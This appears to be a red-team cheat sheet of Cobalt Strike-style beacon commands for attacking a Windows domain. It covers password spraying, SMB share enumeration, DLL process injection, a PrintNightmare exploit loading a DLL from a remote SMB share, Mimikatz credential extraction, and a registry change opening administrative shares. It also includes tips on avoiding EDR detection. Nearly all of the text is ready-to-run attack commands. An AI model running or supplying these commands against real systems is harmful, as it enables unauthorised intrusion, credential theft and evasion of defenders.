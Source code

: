 ```
- List Groups (to easily get shares path as well):
	-> netGroupList

- Windows Cmd: Launch Powershell version 2
	-> powershell -version 2
	-> $PSVersionTable

- Reboot laptop (/!\ running shell cmd can be detected by carbon black EDR):
	-> shell shutdown /r /t 0

- Password spraying (only once for less noise):
	-> Spray-AD MyPassword

- Network Shares (SMB) Enumeration (more noisy):
	-> execute-assembly /root/tool/SharpSharesOptions.exe /threads:5 /ldap:servers /ou:"OU=MyOU Servers,DC=mydomain.com.sg,DC=com,DC=sg"
```


###### <font style="color:#00b3ff">Process injection with DDL load (example process num 4681)</font> 

```
dllload 4681 mydll.dll
```

###### <font style="color:#00b3ff">Run Printnightmare Outflank exploit</font> 

```
execute-assembly /root/SharpPrintnighmare.exe \\192.168.x.x\mySmbFolder\myDLL.dll
```


###### <font style="color:#00b3ff">Run Mimikatz through beacon (preferably custom version compiled of Mimikatz) </font> 

```
mimikatz misc::shadowcopies
```


###### <font style="color:#00b3ff"> List files on a share</font> 

```
ls \\192.168.x.x\myShare
```


###### <font style="color:#00b3ff">Change registry value (to allow admin access to administrative shares)</font> 

```
shell reg add HKLM\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_WORD /d 1 /f
```
